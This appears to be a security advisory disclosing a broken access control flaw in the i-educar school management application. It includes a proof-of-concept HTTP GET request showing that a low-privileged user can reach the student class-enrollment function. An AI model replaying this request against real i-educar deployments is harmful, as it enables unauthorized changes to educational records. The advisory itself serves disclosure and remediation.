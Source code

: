 # Broken Access Control  in /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/528a5b22-4d98-4ad3-b6fe-357a4fffbf62" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/5b190516-6229-4261-86f6-9be742934f86" />

    
2. Send the following request::

```
GET /matricula/206/enturmar/23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_turma_lst.php?ref_cod_matricula=206&ano_letivo=2025
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to sign students from classes. And, this user, should not do that.

<img width="1555" height="666" alt="Pasted image 20250821222850" src="https://github.com/user-attachments/assets/384c88a6-b2b6-4a0f-b27c-19ab4c75548a" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    
---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
